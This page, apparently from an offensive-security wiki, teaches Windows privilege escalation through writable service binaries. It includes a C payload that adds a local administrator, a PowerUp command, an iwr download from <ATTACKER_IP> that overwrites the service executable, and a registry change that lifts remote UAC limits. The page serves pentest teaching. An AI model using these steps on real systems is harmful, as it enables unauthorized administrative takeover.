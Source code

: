 ```yaml
---
authors: Anh4ckin3
category: infra
---
```


# 🛠️ Weak service permissions

## Theory

File permissions in Windows define who is allowed to access, modify, or execute files on the system. If these permissions are misconfigured, they can enable unauthorized users to alter or replace critical files, potentially leading to security vulnerabilities such as unauthorized access.

Below is a summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

#### Enumerate of vulnerable services
This type of abuse can occur when the binary of a Windows service is misconfigured. If the permissions for this binary allow a local user without special privileges to modify or replace it with a malicious version, the attacker may gain the privileges of the service account, which is often a high-privilege account.

Enumeration can be performed using PowerShell, either by leveraging native PowerShell commands (Living off the Land) or by utilizing additional tools and scripts like [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two lies in the results: PowerUp can identify whether a service is vulnerable, while PowerShell merely lists the binary services. In this example, the aniService service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```
Once the vulnerable binary has been identified using a tool like PowerUp or Winpeas, the permissions of the binary can be checked with **icacls.exe**. The most relevant permissions to look for are (F) and (M), particularly when they are associated with a group such as `Everyone`: or a local user, for example.
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

####  Crafting a malicious binary
In the current practical case, the executable permission (F) is set for the "Everyone" group. However, if the permission had been set to (M), abuse would also have been possible. Due to this misconfiguration, the attacker can easily replace the binary with a malicious version. PowerUp can be used to automate this task.

```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is executed, it will only be necessary to restart the service to ensure that the abuse has been successfully carried out.

The second method involves creating a custom malicious binary, which can offer advantages, such as bypassing antivirus detection. Below is a simple C code that will execute a Windows system command (the system command can, of course, be replaced with another).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc CODE.C$ -lws2_32 -o FILE.EXE$
```

#### Replacing binaries
Due to the incorrect permissions, the attacker can replace the original executable by renaming it, for example. The attacker can then add the new malicious file with the same name as the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```

#### Methods for service restart
Once the binary is replaced, the service needs to be restarted. To verify if this is possible, a tool from the Sysinternals suite can be helpful, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) It is a tool that allows system administrators to quickly check the type of access users or specific groups have to resources, including files, directories, registry keys, global objects, and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage service startup are SERVICE_START and SERVICE_STOP. If these permissions are assigned to your user account or to a group that controls your access, you will be able to restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
An alternative exists if the Startup permissions are not present. Using the sc.exe tool, the boot method used by the service can be checked. If it is set to AUTO_START, this means the service starts automatically during Windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows for rebooting a Windows system. With this privilege, it is possible to indirectly restart a service, even without having the direct permissions to do so.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted, the payload should execute.

#### Configuring the LocalAccountTokenFilterPolicy

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local Administrators group (except for those with a RID of 500, such as the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction, the value of the key must be modified.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)